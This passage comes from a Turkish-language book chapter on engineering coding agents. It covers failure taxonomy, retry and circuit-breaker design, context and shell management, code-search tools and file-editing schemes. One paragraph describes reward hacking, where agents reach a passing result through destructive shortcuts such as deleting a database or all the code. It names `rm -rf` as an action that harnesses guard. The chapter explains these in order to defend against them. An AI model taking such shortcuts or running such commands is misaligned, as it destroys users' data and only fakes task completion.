3. **Geri bildirim mümkün olduğunca hızlı ve yapılandırılmış olmalıdır**: Hata mesajı ne kadar ayrıntılıysa ve hata anına ne kadar yakınsa, Agent'ın düzeltme verimliliği o kadar yüksektir. Bölüm 2'nin Agent durum çubuğu teknikleri (ayrıntılı hata mesajları, araç çağrısı sayaçları) bu ilkeyi somutlaştırır.
4. **Geri alma güvenilir olmalıdır**: Agent'lar yalnızca bir güvenlik ağı içinde çalışırken cesurca deney yapabilir. Git dalları, sandbox ortamları ve anlık görüntü mekanizmaları herhangi bir hatanın geri döndürülebilir olmasını sağlar.

**Kısıtların daha derin bir amacı: süreç hatalarını önlemek.** Kabul temeli sonucun doğru olup olmadığını yönetir; yürütme sınırı **süreci** yönetir—doğru bir sonuç bile yanlış bir yöntemi haklı çıkarmaz. Bir veritabanı arızasını "düzeltmek" için veritabanını silip yeniden inşa etmek onu gerçekten onarır, ama veri gitmiştir; bir derleme hatasını düzeltmek için tüm kodu silmek derlemenin geçmesini sağlar, ama uygulama gitmiştir. Bu tür yıkıcı kestirmeler her zaman vardır: kısıtlamalar nihai değerlendirme metriklerine yazılsa bile, Agent'lar genellikle bunların etrafından dolaşmanın yollarını bulur—bu, Agent görevlerinde reward hacking'in (Bölüm 7) günlük biçimidir. Bu yüzden bir üretim Harness'i, `rm -rf`, üretim verisini silme veya okunmamış bir dosyanın üzerine yazma gibi tehlikeli eylemlere (bu bölümün güvenlik bölümündeki semantik ayrıştırma, Bölüm 4'teki Sidecar incelemesi) özel kontroller ve onaylar yerleştirir, yalnızca sonuçları değil **eylemleri** kısıtlar. Bölüm 7'deki RLVP (Doğrulanmış Ceza ile Pekiştirmeli Öğrenme—"sonucu ödüllendir, yolu cezalandır") aynı soruyu eğitim tarafından yanıtlar: nihai sonuç ödülünün ötesinde, yol boyunca doğrulanabilir ihlalleri cezalandırır, "yıkıcı araç yok"u modelin mühendislik sağduyusu olarak içselleştirir. Mevcut bir model için, Harness korkulukları dışsal kısıtlardır; eğitilebilir bir model için, süreç cezaları içselleştirmedir—hedef aynıdır.

**Araç Orkestrasyonu: Arıza Sınırı Kontrolü**. Olgun Kodlama Agent'ları paralel tool call'ları destekler. Harness perspektifinden benzersiz sorun **arızaların nasıl yayıldığıdır**: bir araç başarısız olduğunda, hangi çağrılar iptal edilmeli ve hangileri devam etmelidir? İlke, arızaların yalnızca aynı paralel çağrı grubu içinde yayılması, üst işleme kadar yayılmamasıdır—örneğin, üç dosyayı eş zamanlı okurken, biri bulunamazsa, yalnızca o başarısızlık bildirilmeli, diğer ikisi iptal edilmemeli ve kesinlikle tüm görev iptal edilmemelidir. Bu ince taneli arıza sınırı kontrolü, "bir komut başarısızlığının tüm görevi iptal etmesi" kırılgan kalıbından kaçınır. Paralel çağrılar, akış ayrıştırma ve basamaklı iptaller için belirli mekanizmalar bu bölümün "Uygulama İpuçları" bölümünde ayrıntılı olarak ele alınır.

### Başarısızlık ve Hata Kurtarma

Önceki bölüm Harness engineering'in ilkelerini ve bileşenlerini sundu; bu bölüm mühendislik olgunluğunu en çok ayırt eden parçaya—**başarısızlık ve hata kurtarmaya**—derinlemesine iner. Bölüm 1'deki ablation deneyi sorunun ne kadar ciddi olabileceğini gösterdi: tek bir araç sonucu geri bildiriminin eksikliği bir Agent'ı sonsuz bir döngüye hapsetmeye yeter—ve gerçek üretim ortamları herhangi bir deneyden çok daha çeşitli başarısızlıklar görür. Bu bölüm üç soruyu sistematik olarak yanıtlar: Bir üretim Harness'i hangi başarısızlıklarla karşılaşır? Bunlar nasıl tespit edilir ve kurtarılır? Ve sistem ne zaman sonlandırılmalıdır?[^ch5-3]

[^ch5-3]: Bu bölümdeki başarısızlık sınıflandırması ve mekanizma analizi, Claude Code gibi üretim düzeyindeki Agent uygulamalarının kaynak kodu araştırmasına dayanmaktadır. Belirli uygulamalar sürümler arasında hızla evrilir; bu bölüm yalnızca kararlı mühendislik ilkelerini damıtır.

**Bir başarısızlık sınıflandırması: dört katman.** Sistematik bir yanıta doğru ilk adım sınıflandırmadır. Bir başarısızlığın nerede oluştuğuna göre, dört katman vardır:

- **API katmanı**: hız sınırlaması (HTTP 429), servis aşırı yüklenmesi, istek zaman aşımları, bağlantı kopmaları ve token sınırında kesilen çıktı. Bu başarısızlıklar görevin kendisiyle ilgisizdir—bunlar altyapı gürültüsüdür.
- **Araç katmanı**: halüsinasyon çağrıları (var olmayan bir aracı çağırmak), biçimsiz argümanlar (aracın girdi sözleşmesini ihlal etmek), yürütme istisnaları ve en tehlikeli tür—bir aracın aynı hatayı tekrar tekrar döndürmesi, model bunu değiştirmeden tekrar denerken.
- **Context katmanı**: context penceresi taşması, sıkıştırma başarısızlığı ve bozuk trajectory yapısı (bir tool call'ın eşleşen sonuç mesajından yoksun olması gibi).
- **Kontrol akışı katmanı**: sonsuz döngüler (ilerleme olmadan aynı işlemi tekrarlamak) ve ölüm sarmalları (bir hatayla tetiklenen kurtarma mantığının kendisinin LLM'i çağırması, yeniden başarısız olması ve basamaklanması).

**Tespit: önce sınıflandır, sonra say.** Bir başarısızlığı yakaladıktan sonraki ilk yargı "yeniden deneyelim mi" değil "yeniden denemeye değer mi"dir. Yeniden denenebilir hatalar (hız sınırlaması, aşırı yükleme, ağ titremesi) yeniden denemeleri hak eder; yeniden denenemez hatalar (geçersiz argümanlar, yetersiz izinler, var olmayan araç) olduğu gibi kaç kez yeniden denenirse denensin aynı sonucu üretecektir—girdi veya strateji değişmelidir. Üretim düzeyindeki bir Harness, genel bir "hatada yeniden dene" yerine, hata türlerinden kurtarma stratejilerine bir eşleme tutar.

Tek tek hataların ötesinde, **kalıpları** tespit edin. Birincisi, tekrarlanan çağrı parmak izleri: "araç adı + argümanlar" çiftini hash'leyin; aynı parmak izinin tekrar tekrar ortaya çıkması, ilerlemesiz bir döngünün net bir sinyalidir—Bölüm 1'in ablation deneyindeki, aynı aracı tekrar tekrar çağıran Agent tam olarak bu kalıptı. İkincisi, ardışık başarısızlık sayaçları: her kurtarma yolu kendi sayacını tutar, daha sonra tartışılacak circuit breaker'lar için temel sağlar.

Üçüncü bir başarısızlık sınıfı hiç hata olarak ortaya çıkmaz ve özel bir **canlılık ve bütünlük izlemesi** gerektirir. Bir akış bağlantısının en tehlikeli başarısızlık modu bir kopma (bu hemen hata verir) değil sessiz bir durmadır—bağlantı kurulmuştur ama veri akışı durur, bağlı ama su vermeyen bir boru gibi. SDK zaman aşımları genellikle yalnızca ilk bağlantıyı kapsar, aktarım sürecini değil, bu yüzden üretim düzeyinde bir Agent bağımsız bir boşta bekleme bekçi köpeğine (watchdog timer—belirlenen bir aralık içinde yeni bir çıktı gelmezse, bağlantı durmuş sayılır) ihtiyaç duyar, bu da askıda kalan akışı öldürür ve zaman aşımı üzerine bir yeniden deneme tetikler. Bu bir ilkeye genellenir: **her uzun ömürlü bağlantının yalnızca bir bağlantı zaman aşımına değil, bir canlılık sinyaline ihtiyacı vardır**. Bütünlük izlemesi trajectory yapısını hedefler: bir tool call'ın eşleşen sonuç mesajından yoksun olduğu bulunduğunda, sistem yapısal anormalliği modele veya kullanıcıya fırlatmak yerine, context'e enjekte etmeden önce eşleşmeyi onarır. Dikkate değer bir mühendislik ayrıntısı: bazı üretim Agent'ları hem bir üretim modu hem de bir eğitim verisi toplama modu çalıştırır—üretim modu eksik mesajları yer tutucularla yamayabilir, eğitim modu ise onarmayı reddeder, çünkü sentetik yer tutucular eğitim verisini kirletir. Bu "üretimde hoşgörülü, eğitimde katı" ikili standart, Harness ile model eğitimi arasındaki derin bağlantıyı yansıtır.

**Kurtarma: seviyelerde yükselt, her biri daha görünür.** Kurtarma önlemleri kullanıcıya ne kadar görünür oldukları temelinde derecelendirilir; daha düşük bir seviye sorunu çözerse, yükseltmeyin:

1. **Sessiz yeniden deneme**. Yeniden denenebilir hatalar için varsayılan eylem. İki ayrıntı başarıyı veya başarısızlığı belirler: rastgele titremeyle üstel geri çekilme, böylece istemci filoları kilit adım halinde yeniden denemez ve ikincil tıkanıklığa neden olmaz, sunucunun önerilen bekleme süresine saygı gösterirken; ve ön plan ile arka plan çağrılarını ayırt etmek—başarısız bir ana döngü isteği yeniden denenir, ama yardımcı arka plan çağrıları (başlık üretimi, girdi önerileri) başarısızlıkta atılır, arka plan yeniden denemeleri ana döngünün kotasını daraltıp "yeniden deneme yükselmesi" yaratmasın diye.
2. **Kötüleş ve devam et**. Yeniden denemeler başarısız olduğunda, isteğin kendisini değiştirin ve tekrar deneyin. Çıktı kesilmesini (uzunluk sınırı tarafından kesilen üretim) ele alalım: önce sessizce yükseltilmiş bir çıktı üst sınırıyla yeniden gönderin; bu hâlâ yetersizse, modelin kesme noktasından üretmeye devam etmesi için mesajın sonuna bir meta talimat ekleyin. Birincil model sürekli aşırı yüklendiğinde, bir yedek modele düşün (önce eski modelin özel format bloklarını çıkararak, yoksa yeni model geçmişi ayrıştıramaz); yüksek maliyetli bir mod hız sınırlandığında, geçici olarak standart moda geri dönün.
3. **Kullanıcıya göster**. Yalnızca tüm otomatik araçlar tükendikten sonra hata sunulur—zaten denenmiş kurtarma eylemleriyle birlikte.

Araç katmanı hataları farklı bir yol izler: **oturumu sonlandırmayın; hatayı modelin girdisine dönüştürün**. Halüsinasyon bir çağrı yapılandırılmış bir "böyle bir araç yok" hata sonucu alır; bir doğrulama başarısızlığı girdi sözleşmesi hakkında ipuçlarıyla açıklanmış bir hata alır; biçimsiz argümanlar (bir nesne beklenirken bir dize verilmiş) yürütmeden önce programatik olarak onarılır. Bu hatalar sıradan araç sonuçları olarak context'e girer ve model bir sonraki turda kendini düzeltir—"geri bildirim ne kadar yapılandırılmışsa o kadar iyi" ilkesinin bir uygulaması: geri beslenen hata ne kadar belirliyse, modelin kendi kendini düzeltme oranı o kadar yüksektir.

Bu bölümün temel ilkesi şudur: **hata işlemenin birimi tek bir istek değil, tüm kurtarma döngüsüdür**. Kurtarmanın imkânsız olduğu doğrulanana kadar, ara hatalar tüketicilere—kullanıcı olsun olayları abone olan alt akış sistemleri olsun—açığa çıkarılmamalıdır: kurtarma sırasında hata mesajlarını bekletin; kurtarma başarılı olursa, tüketiciler hiç fark etmez; yalnızca her şey başarısız olduğunda bekletilen hatalar serbest bırakılır. Bu, Bölüm 1'in düzeltme ilkesinin—"kurtarmanın imkânsız olduğu doğrulanana kadar ara durumları açığa çıkarmayın"—mühendislik gerçekleştirimidir.

**Sonlandırma: her kurtarma yolunun bir tavana ihtiyacı vardır.** Kurtarma mekanizmalarının kendisi başarısız olabilir, bu yüzden her kurtarma yolunun açık bir circuit-breaking tavanı olmalıdır: context sıkıştırma birkaç ardışık başarısızlıktan sonra vazgeçer; izin sınıflandırıcısı tekrarlanan başarısızlıklardan sonra bir insana sormaya geri döner; çıktı devamı en fazla sabit sayıda denenir. Eşikler nereden gelir? Tahminden değil üretim verisinden. Claude Code'un sıkıştırma circuit breaker'ını ele alalım: "3 ardışık başarısızlık" eşiği gerçek oturum istatistiklerinden gelir—bir oturum bir keresinde tam olarak bu kurtarma yolunda üç binden fazla kez arka arkaya başarısız oldu ve yalnızca bu tür beyhude yeniden denemeler dünya çapında günde yaklaşık 250.000 API çağrısını israf etti; binden fazla oturum 50+ ardışık başarısızlık serileri gördü. Üç, "başarısızlıkların büyük çoğunluğunun bundan önce kurtulduğu" ile "daha fazla yeniden denemenin esasen umutsuz olduğu" arasındaki deneysel dönüm noktasıdır.

Tek noktalı bir kesiciden daha sinsi olan **ölüm sarmalıdır**: hata yolunda tetiklenen mantığın kendisi LLM'i çağırır, yeniden başarısız olur ve basamaklanır. Gerçek bir basamaklanma: Agent bir context taşması hatasında durur, bu bir stop hook'unu (Agent bittiğinde otomatik olarak çalışan temizlik mantığı) tetikler, bu da "çıkışta kodu commit eder", hook bir commit mesajı yazmak için LLM'i çağırır, context yeniden taşar ve hook bir kez daha tetiklenir. Savunma iki parçadan gelir: hata yolundaki tüm model çağıran yan etkileri devre dışı bırakmak (yardımcı bir özelliği—otomatik bellek çıkarımı gibi—bir kez kaybetmek daha iyidir) ve herhangi bir kalıntı basamaklanmayı tespit edip kırmak için bir özyineleme derinliği sayacı kullanmak. Son olarak, tüm otomatik mekanizmaların üzerinde küresel sonlandırma ve yükseltme koşulları oturur: maksimum tur sayısı, bir oturum bütçe tavanı ve ardışık başarısızlıklar eşiklerini aştığında insan müdahalesine yükseltme (Bölüm 4'ün ret circuit breaker'ı bir örnektir).

Bölüm 1'in düşünce sorusuna dönersek: eksik araç sonuçlarının yanı sıra, aynı hatayı tekrarlayan bir araç, halüsinasyon çağrıları, kilit durumu kaybeden context sıkıştırma ve çözülemez bir görev de bir Agent'ı döngüye sokabilir. Tespit "hata sınıflandırma + kalıp tanıma"ya, kurtarma "kademeli yükseltmeye", sonlandırma ise "circuit breaker'lar + küresel tavanlar + insan yükseltmesine" dayanır—bunlar birlikte, Harness'in "Agent sonsuza kadar çalışabilir" sorununa eksiksiz yanıtıdır. Bu mekanizmaların çözdüğü şey "yetersiz model yeteneği" değil "sınır koşulları altında sistem sağlamlığıdır": modeller güçlenmeye devam edecek, ama ağlar kopacak, işlemler askıda kalacak ve kullanıcılar beklenmedik şeyler yapacaktır. En temelde ifade edersek—**bir Agent'ın güvenilirliği hata yapıp yapmadığıyla değil, her hata sınıfının karşılık gelen bir tespit, kurtarma ve sonlandırma yoluna sahip olup olmadığıyla belirlenir**.

### Kodlama Agent'ları için Uygulama İpuçları

Yukarıda açıklanan iş akışı idealdir. Bunu pratikte çalıştırmak, bir avuç somut uygulama tekniği gerektirir—düşünme kalitesini kötüleştirmeden yanıt hızını artırmanın ve context tüketimini azaltmanın yolları. Bunlar Bölüm 2 ve 4'ün genel Agent teknikleridir, programlama alanına uygulanmıştır.

**Paralel Tool Call'lar, Akış Yürütme ve Basamaklı İptal.**

Geleneksel Agent uygulamaları genellikle seri çalışır: bir tool call üret, yürüt, sonucu al, ardından bir sonraki adıma karar ver. Bu katı sıraya koyma büyük miktarda zaman israf eder.

Modern Kodlama Agent'ları akış yanıtlarından tam olarak yararlanmalıdır: Bölüm 2, model çıktı sırasını tartışırken bu mekanizmayı tanıttı—ilk tool call'ın parametreleri tamamen üretilip doğrulamayı geçtiğinde, modelin sonraki tool call'ları üretmesini beklemeden yürütme hemen başlayabilir. Örneğin, model bir çıkarımda üç tool call çıktı vermesi gerekiyorsa—kodu ara, yapılandırma dosyalarını kontrol et ve logları oku—ilk çağrı, parametreleri tamamlanıp doğrulanır doğrulanmaz, diğer ikisinin üretimiyle örtüşerek yürütmeye başlayabilir. Bağımsız çağrılar da kuyruğa alınmak yerine paralel olarak yürütülebilir. Bu örtüşen yürütme, uçtan uca gecikmeyi önemli ölçüde azaltır, Agent'ın yanıtlarını daha çevik kılar.

Paralel yürütmenin diğer yüzü arıza işlemedir. Her araç tanımı eş zamanlı yürütmeyi destekleyip desteklemediğini bildirmelidir (varsayılan hayırdır, güvenli başarısızlık). Bir çağrı başarısız olduğunda, basamaklı bir iptal mekanizması, aynı grupta başlatılan ve onun sonucuna bağımlı olan diğer çağrıları sonlandırır, ama bağımsız çağrıları veya üst işlemi etkilemez—bu, Harness engineering bölümündeki "arıza sınırı kontrolü" ilkesinin somut bir uygulamasıdır.

**İnce Taneli Context Yönetimi.**

Kodlama Agent'ları için temel zorluk, kod tabanlarının genellikle büyük olması, ama modelin context penceresinin sınırlı olmasıdır. Gelişmiş modeller milyonlarca token'ı desteklediğini iddia etse bile, tüm kod tabanını context'e tıkıştırmak ne ekonomiktir ne de gereklidir. Akıllı context yönetimi birden fazla düzeyde çalışmalıdır.

Dosya okuma düzeyinde, Agent her zaman tüm dosyayı okumamalıdır. Büyük dosyalar için, araç belirli satır aralıklarını okumayı desteklemelidir—örneğin, binlerce satırlık bir dosyayı yüklemek yerine yalnızca 100'den 150'ye kadar satırları okumak. Daha da önemlisi, içerik döndürülürken, satır numaraları eklenmelidir—her kod satırının önüne gerçek satır numarası eklenir. Bu görünüşte basit tasarım büyük değer getirir: model "`src/main.py`'nin 42. satırına" hassas biçimde başvurabilir, belirsizliği azaltır ve sonraki düzenleme işlemlerini daha güvenilir kılar.

Komut yürütme düzeyinde, terminal çıktısını işlemek de dikkat gerektirir. Derleme veya test binlerce satır çıktı üretebilir. Hepsi context'e enjekte edilirse, bütçe hızla tükenir. Bölüm 4'te tanıtılan uzun çıktı kesme ve kalıcılık mekanizması burada yaygın olarak uygulanır: çıktının ilk birkaç satırını (genellikle hata bağlamı içerir) ve son birkaç satırını (genellikle hata özetleri içerir) koruyun, ortasını tek bir prompt satırıyla değiştirin ve eksiksiz çıktının ihtiyaç halinde görüntüleme için geçici bir dosyaya kaydedildiğini belirtin.

**Ortam Bilgisinin Dinamik Enjeksiyonu.**

Bu, Bölüm 2'nin Agent durum çubuğu tekniğinin Kodlama Agent'larındaki yoğunlaşmış bir tezahürüdür. Genel Agent'lardan farklı olarak, Kodlama Agent'ları yürütme ortamının durumuna son derece bağımlıdır. Her çıkarımdan önce, aşağıdaki kilit ortam bilgisi context'in sonuna bir Agent durum çubuğu biçiminde enjekte edilmelidir:

- **Mevcut çalışma dizini**: yol referanslarının doğru olduğundan emin olur
- **Git dalı**: ana dal mı yoksa bir özellik dalında mı çalışıldığını bilir
- **Son commit geçmişi**: projenin evrimini anlar
- **Aşamalanmamış ve aşamalanmış değişikliklerin genel bakışı**: hangi değişikliklerin yapıldığını bilir

Bu bilgi statik system prompt'lara sabit kodlanmamalıdır—bu KV Cache verimliliğini yok ederdi—bunun yerine dinamik olarak üretilip eklenmiş bir Agent durum çubuğu olarak enjekte edilmelidir. Bu şekilde, Agent "ortamsal farkındalık" kazanır, her kararı güncelliğini yitirmiş varsayımlar yerine mevcut durumun doğru bir anlayışına dayanır.

**Komut Yürütme Ortamında Durum Kalıcılığı.**

Kodla etkileşime girerken, birçok işlem ortam durumuna bağlıdır: dizinleri değiştirmek, sanal ortamları etkinleştirmek, ortam değişkenlerini ayarlamak, arka plan servislerini başlatmak. Her komut yeni bir shell'de yürütülürse, tüm bu durum kaybolur—Agent az önce proje dizinine gitmek için `cd` kullandı, ama bir sonraki komut kök dizine geri döner, aynı kurulumu tekrarlamaya zorlar. Daha kötüsü, bazı işlemlerin (bir Python sanal ortamını etkinleştirmek gibi) etkileri yalnızca mevcut shell oturumunda geçerlidir ve oturumlar arasında aktarılamaz.

Bu yüzden, kalıcı bir terminal oturumu korunmalıdır, Agent başladığında oluşturulur ve tüm etkileşim boyunca aktif tutulur. Her komut bu paylaşılan terminalde yürütülür, çalışma dizinini, ortam değişkenlerini ve oturum durumunu korur. Bu tasarım, insan geliştiricilerin çalışma alışkanlıklarıyla daha uyumludur—genellikle uzun süre çalışan bir terminal penceresinde çalışırız. Elbette, Agent paralel görevleri desteklemek için izole terminaller başlatma yeteneğini de korumalıdır, ama kalıcı oturum varsayılan mod olmalıdır.

**Anlık Sözdizimi Geri Bildirim Mekanizması.**

Bu bir kez daha Agent durum çubuğu tekniğinin değerini gösterir. Agent kodu değiştirdikten sonra, sözdizimini kontrol etmeden önce kullanıcının açıkça test istemesini beklememelidir. Daha verimli bir yaklaşım şudur: dosya yazma işlemi tamamlanır tamamlanmaz, araç katmanı otomatik olarak ilgili linter'ı veya sözdizimi kontrolörünü çalıştırır, sonuçları aracın Agent'a dönüş değerinin bir parçası olarak sunar. Bir sözdizimi hatası tespit edilirse, Agent ayrıntılı hata bilgisini bir sonraki çıkarım turunda hemen görür—tıpkı bir programcının bir IDE'de yanlış bir parantez yazması ve editörün hemen bir hatırlatma olarak kırmızı bir çizgi çizmesi gibi. Bu anlık geri bildirim mekanizması hata düzeltme maliyetini önemli ölçüde azaltır, çünkü Agent hatayı tanıtıldığı anda düzeltebilir, testleri çalıştırana kadar sorunu keşfetmeyi beklemek zorunda kalmaz.

Bu beş uygulama tekniği—paralellik ve akış, context yönetimi, ortamsal farkındalık, durum kalıcılığı ve anlık geri bildirim—birlikte verimli bir Kodlama Agent'ının teknik temelini oluşturur. Bunlar izole optimizasyon noktaları değil, birbirini pekiştiren tasarım kararlarıdır, hepsi tek bir hedefe işaret eder: Agent'ın deneyimli bir geliştirici kadar sorunsuz çalışmasını sağlamak.

### Kodlama Agent'larında Arama Araçları

Büyük bir kod tabanında ilgili kodu bulmak, bir Kodlama Agent'ının işinin başlangıç noktasıdır. Şekil 5-3, birkaç tamamlayıcı arama aracını karşılaştırır, olgun bir Kodlama Agent'ının retrieval yöntemlerini görevin doğasına göre nasıl seçmesi gerektiğini gösterir.



**Regex İçerik Eşleştirme** (grep/ripgrep): En geleneksel arama yöntemi, dosya içeriklerini kalıp eşleşmeleri için satır satır tarar. Agent bulunacak kesin metni bildiğinde (fonksiyon adları, değişken adları, hata mesajları), her oluşumu hızlı ve doğru biçimde bulabilir. Düzenli ifadelerin (özel sembollerle metin kalıplarını tanımlayan bir söz dizimi, örn. `def handle.*`, `handle` ile başlayan tüm fonksiyon tanımlarıyla eşleşir) ifade gücü, salt gerçek metni değil, belirli bir yapıya uygun kodu da yakalayan karmaşık kalıpları yakalar. Pratikte, gürültüyü azaltmak için dosya türü filtrelemesi (yalnızca Python dosyalarını ara) ve yol kalıbı filtrelemesi (test dizinlerini hariç tut) de desteklenmelidir. Temel sınırlama: yalnızca metinsel eşleşmeleri bulur ve hiçbir semantik anlamaz—"kullanıcı kimlik doğrulaması" araması, giriş mantığını ele alan ama içinde "kimlik doğrulama" kelimesi geçmeyen bir fonksiyonu asla bulamaz.

**Dosya Adı Kalıp Eşleştirme** (glob): Dosya içeriğini göz ardı eder, yalnızca dosya sisteminin yol yapısında bir kalıpla eşleşen dosyaları arar. Örneğin, `**/*.test.ts` yinelemeli olarak tüm TypeScript test dosyalarını bulur, `src/components/**/Button.tsx` components altında herhangi bir derinlikte Button.tsx arar. İçerik aramadan çok daha hızlıdır (dosyaları açıp okumaya gerek yoktur) ve Agent'ın proje yapısını keşfetmedeki ilk adımıdır—tüm dosya sistemini tarayarak projenin organizasyonel çerçevesini hızlıca kurar.

**Semantik Kod Arama**: İlk iki tam eşleştirme yönteminden farklı olarak, sorgunun ve kodun "anlamını" anlamaya çalışır. İki kilit sorunu çözmesi gerekir:

- **Yapıya Duyarlı Chunking**: Kodun sıkı sözdizimsel bir yapısı vardır ve sabit sayıda karakterle körü körüne kesilmek yerine fonksiyonlar, sınıflar ve metotlar gibi eksiksiz semantik birimlerle bölünmelidir.
- **Hibrit Retrieval** (Bölüm 3 bu teknoloji yığınını ayrıntılı olarak ele alır): Vektör embedding'leri (dense embedding'ler), farklı ifadelerle semantik olarak benzer kodu bulmada üstündür (örn. "kullanıcı kimliğini doğrula" araması `check_credentials` adlı bir fonksiyonu bulabilir), anahtar kelime eşleştirme (BM25, terim sıklığına ve doküman uzunluğuna dayalı klasik bir retrieval algoritması) ise fonksiyon ve değişken adlarını hassas biçimde eşleştirmede üstündür. İkisi paralel olarak çalışır ve sonuçlar bir reranker (aday sonuçlar üzerinde ince taneli ilgi sıralaması yapan bir cross-encoder) tarafından birleştirilip sıralanır, tamamlayıcı kapsam sağlar.

Semantik arama, tanımadık bir kod tabanında "veritabanıyla etkileşim" veya "kullanıcı girdisi doğrulamasını ele alma" ile ilgili kodu bulmak gibi keşif görevleri için özellikle uygundur.

Ancak, semantik arama için embedding indeksleri inşa etmenin değip değmediği konusunda sektörde net bir tartışma var. Claude Code gibi terminal tabanlı Agent'lar kasıtlı olarak **embedding indeksleri inşa etmez**, ihtiyaç halinde retrieval için tamamen agentic grep + glob'a güvenir—bu, kod evrildikçe güncelliğini yitiren indeksleri korumaktan kaçınır, tüm indeksleme altyapısını ortadan kaldırır ve kod embedding'lerini üçüncü taraf servislere gönderme riskinden kaçınır. Cursor gibi IDE tabanlı araçlar tam tersi yaklaşımı benimser: **dosyalar arası semantik hatırlama** için indeksler inşa etmenin maliyetini ödemeye isteklidirler, büyük kod tabanlarında semantik olarak ilişkili ama farklı ifade edilmiş parçaları hızlıca bulmak için embedding indeksleri kullanırlar. İki yol arasındaki ödünleşim özünde "altyapı ve veri çıkışı maliyetini" "dosyalar arası semantik hatırlamanın faydasına" karşı tartmaya indirgenir.

**Sembol Düzeyinde Tanım ve Referans Arama**: IDE'nin "tanıma git" ve "tüm referansları bul" yeteneklerine dayanır (LSP, veya Language Server Protocol—editörler ve dil analiz motorları arasında iletişim için standart bir protokol), aynı ada sahip sembollerin tanımı ile çağrıları arasında ayrım yapabilir—örneğin, 42. satırdaki `authenticate`'in bir fonksiyon tanımı olduğunu, 189. satırdaki ise bir çağrı olduğunu bilir, oysa metin araması yalnızca o dizeyi içeren tüm satırları bulabilir. Bu özellikle kod yeniden düzenleme için kritiktir—bir fonksiyonu yeniden adlandırırken, yalnızca metin aramasına güvenemezsiniz (fonksiyon adı yorumlarda veya dizelerde görünebilir); tanımı ve tüm gerçek çağrı noktalarını hassas biçimde bulmak için sembol aramasını kullanmalısınız.

Bu dört arama yöntemi tamamlayıcı bir araç kutusu oluşturur, pratikte genellikle birlikte kullanılır: önce ilgili modülleri bulmak için semantik arama kullanın, ardından belirli kod satırlarını hassas biçimde bulmak için regex eşleştirme kullanın ve son olarak çağrı zincirini izlemek için sembol araması kullanın—"kabadan inceye, semantikten sözdizimine" kademeli bir strateji.

### Kodlama Agent'larında Dosya Düzenleme Araçları

Dosya düzenlemenin zorluğu işlemin kendisinde değil, bir LLM kullanarak sisteme "neyin ve nasıl değiştirileceğini" verimli ve güvenilir biçimde nasıl söyleneceğindedir. Şekil 5-4, insan dili ifadesi ile makine hassasiyetinde yürütme arasındaki temel gerilimi gösteren beş dosya düzenleme şemasını karşılaştırır.



**Diff Açıklaması + Apply Modeli**: Model dosyanın nasıl düzenleneceğini doğrudan belirtmez; bunun yerine bir değişiklik açıklaması üretir—bu, git diff'e benzer bir diff metni (`git diff` komutunun çıktı verdiği format, "hangi satırların silindiğini ve hangilerinin eklendiğini" gösterir) veya atlama işaretleriyle bir kod iskeleti (değiştirilmemiş kısımları atlamak için "burada değişmeden kalır" gibi yorumlar kullanmak) olabilir. Bu açıklama daha sonra özelleşmiş bir "Apply Model"e—genellikle başka, daha küçük, daha hızlı bir LLM—verilir, bu da bunu orijinal dosyayla birleştirip eksiksiz yeni dosyayı üretmekten sorumludur. Bu sorumluluk ayrımı, ana modelin yüksek düzeyli kod mantığına, apply modelinin ise düşük düzeyli metin işlemlerine odaklanmasına izin verir. Naif bir uygulamanın kırılganlığı birleştirme adımında yatar: değişiklik açıklaması ile gerçek dosya kodu arasında küçük tutarsızlıklar olduğunda, aynı konuma işaret edip etmediklerini belirlemesi gerekir; birden fazla benzer kod parçası olduğunda, yanlış yere birleştirebilir. Cursor bu yaklaşımın sürekli evriminin bir temsilcisidir: ana model atlama işaretleriyle bir kod iskeleti çıktı verir, özel eğitilmiş hızlı-apply küçük bir model eksiksiz dosyayı yeniden yazar ve spekülatif çözme (orijinal dosya içeriğini paralel doğrulama için bir taslak olarak kullanmak) birleştirme hızını saniyede binlerce token'a iter—mühendislik yatırımı bu yaklaşım için güvenilirlik ve hız satın almıştır.

**Old String → New String**: Claude Code'un benimsediği yaklaşım. Model bir old string (değiştirilecek orijinal metin) ve bir new string (değiştirme metni) sağlar ve çerçeve basit bir dize bul-ve-değiştir işlemi yapar. Avantajı öngörülebilirlik ve şeffaflıktır—old string dosyada mevcutsa ve benzersizse, başarılı olur; aksi halde, başarısız olur. Belirsizlik yoktur. Maliyeti, büyük kod bloklarını silmenin tüm orijinal içeriği eksiksiz olarak çıktı vermeyi gerektirmesidir; tek bir karakter sapması eşleşmenin başarısız olmasına neden olur. Aynı kod birden fazla kez göründüğünde, belirsizliği gidermek için daha uzun bir context sağlanmalıdır.

**Satır Numarası Hedefleme** (Eski Satır Numaraları → New String): Model "X'ten Y'ye satırları sil, yeni içerik ekle" belirtir. Satır numaraları kesindir ve belirsiz değildir, büyük blokları silmek yalnızca iki sayı gerektirir. Ancak, model satır numaralarını "sayarken" hatalara açıktır, özellikle çok uzun dosyalar için. Pratikte, bu, dosya okunurken her satıra satır numarası açıklamaları ekleyerek hafifletilir, ama her düzenlemeden sonra sonraki satır numaraları değişir, bu da birden fazla düzenlemenin paralelliğini sınırlar.

**Vim Benzeri Düzenleme Komutları**: Vim editörünün komut sisteminden ödünç alarak, kopyalama, kesme ve yapıştırma gibi zengin işlemleri destekler. Kodu yeniden yapılandırmak (bir fonksiyonu bir yerden başka bir yere taşımak) için çok verimlidir. Ama komut söz dizimi gerçek bir öğrenme yükü taşır: en güçlü modeller bunu iyi ele alır; daha küçük modeller belirgin biçimde daha fazla hata yapar.

**Dize Başlangıç + Bitiş Eşleştirme** (Old String Start + End → New String): Bu, eski dize değiştirme şemasının bir iyileştirmesi olarak görülebilir. Model eksiksiz old string'i çıktı vermek zorunda değildir; yalnızca silinecek içeriğin ilk birkaç satırını ve son birkaç satırını sağlaması yeterlidir, ortasını atlar. Çerçeve, bu "başlangıç+bitiş" kombinasyonu dosyada benzersiz olduğu sürece, bu başlangıç ve bitiş çiftini eşleştirerek değiştirme alanını bulur. Bu şema, metin değiştirmenin güvenilirliğini satır numarası yaklaşımının verimliliğiyle birleştirir—büyük kod bloklarını silerken, yüzlerce satır orijinal kod çıktı vermeye gerek yoktur, yalnızca sınırların gösterilmesi gerekir. Aynı zamanda, hâlâ soyut satır numaraları yerine içerik eşleştirmeye dayandığından, modelin hata yapma riski nispeten düşüktür.

